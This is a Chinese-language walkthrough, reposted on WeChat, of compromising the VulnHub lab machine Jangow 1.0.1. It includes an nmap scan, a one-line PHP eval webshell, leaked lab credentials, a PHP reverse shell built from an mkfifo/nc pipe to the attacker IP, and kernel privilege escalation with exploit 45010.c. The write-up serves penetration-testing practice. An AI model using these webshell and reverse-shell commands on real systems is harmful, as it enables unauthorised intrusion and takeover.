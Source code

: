 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/kJLViHs4_98zyHR-EqhwCA)

**前期准备：**

```
`靶机下载地址：https://www.vulnhub.com/entry/jangow-101,754/``kali攻击机IP：192.168.1.130``靶机地址：192.168.1.139`
```

一、信息收集
------

#### 1.使用nmap扫描靶机地址

```
nmap -p 1-65535 -A -sV 192.168.1.139
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/QO6oDpE0HEnPhvWy3UrcUDhzJnfYf62ribUdFLIPxSZOuXyO3txXV0knziaAaExicJr29vhMkrxl4TF9NFKwFM6Dw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

发现开放了21和80端口，查看一下80端口。

#### 2.收集网站信息

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

检查页面后发现Buscar页面有个可疑的地方：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

做一下测试：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现可以执行系统指令。

二、漏洞攻击
------

直接写入一句话木马试一下：

```
echo '<?php eval($_POST["sain"]);' > sain.php
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

返回200，用蚁剑链接一下：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

连接成功。简单查看一下文件，在/var/www/html/site/wordpress下也发现了配置文件：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

除此之外发现在/var/www/html下有一个./backup文件：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现都是数据库的用户名和密码，但是jangow01和系统名字一样，所以我就尝试下直接登录系统，发现可以直接登陆进去：

```
`username = "jangow01"``password = "abygurl69"`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以直接在系统里进行提权做，但是通常是写入反弹shell连接，然后发现 nc 中的 -e 参数无法使用

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

除此之外也尝试了好几种反弹shell，发现存在端口限制，试了好几个端口后发现443端口能用，因为网站使用的是php语言，所以写入一个php反弹shell文件：

```
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.130 443 >/tmp/f');?>
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

kali上开启监听，并且访问 反弹shell的php文件：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现连接成功，写入交互式shell：

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

再升级一下 shell。在home目录下发现一个user.txt文件：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

用md5解不出来，然后查看一下系统版本，看看有没有可利用的漏洞：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

三、提权
----

靶机环境是ubuntu16.04，使用 searchsploit 看看有没有什么可利用的漏洞

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

试了好几个后发现 45010.c 可以利用，把45010.c文件传送到靶机中，我这开个http服务：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

赋一下权限（**一开始我用的 jangow01 用户做的，发现无法赋权，后来试了下 www-data 可以**）：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

先用 gcc 运行一下45010.c文件：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

生成一个 a.out 文件，运行a.out文件，得到root权限，查看flag：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

作者：sainet，文章转载于博客园。

**往期精彩推荐**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

[记一次搭建靶场渗透过程（1）](http://mp.weixin.qq.com/s?__biz=MzkwNzI0MTQzOA==&mid=2247483876&idx=1&sn=e1a36f5c075ed6efc7d6f4fd4ab76cd7&chksm=c0dd7355f7aafa43b26e0d175b58f85c7424a025cbf7b62e65d9b68a41f94e38ba816fddc261&scene=21#wechat_redirect)  

[记一次搭建靶场渗透过程（2）](http://mp.weixin.qq.com/s?__biz=MzkwNzI0MTQzOA==&mid=2247483903&idx=1&sn=891ec97e333fa955191ef28cd2c2a088&chksm=c0dd734ef7aafa5863337a3abce5be36debd3cddbd22debe38f36a6534b23d35a6e6dc11386b&scene=21#wechat_redirect)

[记一次搭建靶场渗透过程（3）](http://mp.weixin.qq.com/s?__biz=MzkwNzI0MTQzOA==&mid=2247483959&idx=1&sn=40c3bd991e58106adbf910d103af18b8&chksm=c0dd7086f7aaf990e0bad981bd842e388c80b46044542aa157dcf83165dfb966d09c91c6a927&scene=21#wechat_redirect)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

           **团队介绍**

银河护卫队super，是一个致力于红队攻防实战、内网渗透、代码审计、安卓逆向、安全运维等技术干货分享的队伍，定期分享常用渗透工具、复现教程等资源。欢迎有想法、乐于分享的具备互联网分享精神的安全人士进行交流学习。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

点击关注银河护卫队super

 ![](http://mmbiz.qpic.cn/mmbiz_png/QO6oDpE0HEklkWjIl0RzCibFSpMUlVqBN8oNxMvY6GRc67IcBDthxMpN3QGFB40rsmoO3412j5OuCsAyMwHy8icA/0?wx_fmt=png) ** 银河护卫队super ** 银河护卫队super，是一个致力于红队攻防实战、内网渗透、代码审计、安卓逆向、安全运维等技术干货分享的队伍，定期分享常用渗透工具、复现教程等资源。 欢迎有想法、乐于分享的具备互联网分享精神的安全人士进行交流学习。 26篇原创内容   公众号